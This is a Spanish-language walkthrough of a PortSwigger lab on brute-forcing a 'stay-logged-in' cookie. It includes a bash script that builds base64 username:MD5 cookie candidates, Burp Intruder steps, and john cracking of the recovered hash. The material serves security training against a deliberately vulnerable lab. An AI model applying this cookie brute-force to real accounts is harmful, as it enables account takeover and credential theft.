 ```yaml
---
title: "Brute-forcing a stay-logged-in cookie"
description: "Laboratorio de Portswigger sobre Authentication"
date: 2025-01-29 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Brute-forcing a stay-logged-in cookie
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Para `resolver` el `laboratorio`, debemos `realizar` un `ataque` de `fuerza bruta` sobre la `cookie` de Carlos para `acceder` a `Mi account`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `bruteforcear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-9/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-9/image_2.png)

En el caso de que introdujésemos `dos veces` la `contraseña incorrecta` nos `bloquearía` y deberíamos `esperar 1 minuto` para volver a intentar `introducir` las `credenciales`

![](/assets/img/Authentication-Lab-9/image_3.png)

`Rellenamos` el campo `Email`, `pulsamos` en `Update email` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_4.png)

Si nos fijamos bien el campo `stay-logged-in` de la `cookie` está `compuesto` por el `nombre` de `usuario` y la `contraseña`

![](/assets/img/Authentication-Lab-9/image_5.png)

`Identificamos` el `tipo` de `hash` con el que se `cifra` la `contraseña`, para ello podemos usar `webs` como [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

![](/assets/img/Authentication-Lab-9/image_6.png)

Otra opción sería usar `herramientas` como `hash-identifier`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 51dc30ddc473d43a6011e9ebba6ca770

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
```

Para `confirmar` que es `MD5` usamos este comando y vemos que `ambos hashes coinciden`

```
# echo -n 'peter' | md5sum | awk '{print $1}'
51dc30ddc473d43a6011e9ebba6ca770
```

Vemos que podemos `eliminar` el `parámetro session` y el servidor nos `asigna` una `cookie` de acuerdo al parámetro `stay-logged-in`

![](/assets/img/Authentication-Lab-9/image_7.png)

Si intentamos acceder a `/my-account?id=carlos` con el y el `stay-logged-in` tiene las `credenciales incorrectas` nos hará un `redirect` a `/login`. Sin embargo, si lo hacemos con las `credenciales correctas` nos `devolverá` un `200 OK` y no habrá ningún redirect, podemos usar esto para `bruteforcear` la `contraseña` del usuario `carlos` y `acceder` a su `cuenta`

![](/assets/img/Authentication-Lab-9/image_8.png)

Para `crear` este `valor` de la `cookie` vamos a usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y este `script` en `bash`

```
#!/bin/bash

while IFS= read -r line
do
  username="carlos"
  md5_hashed_password=$(echo -n "$line" | md5sum | awk '{print $1}')
  base64_hashed_password="$username:$md5_hashed_password"
  echo -n "$base64_hashed_password" | base64 >> hashed_passwords.txt
done < "passwords.txt"
```

`Mandamos` la `petición` al `Intruder` y ahí `marcamos` el `campo` de la `cookie` a `bruteforcear`

![](/assets/img/Authentication-Lab-9/image_9.png)

`Cargamos` el `diccionario` creado

![](/assets/img/Authentication-Lab-9/image_10.png)

Otra forma de `bruteforcear` sería usando las `contraseñas` de `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y luego `procesar` el `payload` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_11.png)

Si la `contraseña` es la `correcta` nos `devuelve` el `código de estado 200`, así que `filtramos` por `código` de `estado` y `obtenemos` el `hash`

![](/assets/img/Authentication-Lab-9/image_12.png)

`Obtenemos` la `contraseña` del usuario `carlos`

```
# echo 'Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl' | base64 -d
carlos:91cb315a6405bfcc30e2c4571ccfb8ce 
```

El `payload` usado para la `petición` es el `número 83`, por lo tanto podemos usar awk` `para `obtener` esa `línea` del `diccionario` de contraseñas

```
# awk 'NR==83' passwords.txt 
chelsea
```

Otra forma sería `creando` un `archivo` con el hash `91cb315a6405bfcc30e2c4571ccfb8ce` en su interior y `bruteforcearlo` con `john`

```
# john --format=raw-MD5 -w passwords.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
chelsea          (?)     
1g 0:00:00:00 DONE (2025-01-29 11:40) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..larry
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`Iniciamos sesión` en la `cuenta` de `carlos`

![](/assets/img/Authentication-Lab-9/image_13.png)

![](/assets/img/Authentication-Lab-9/image_14.png)
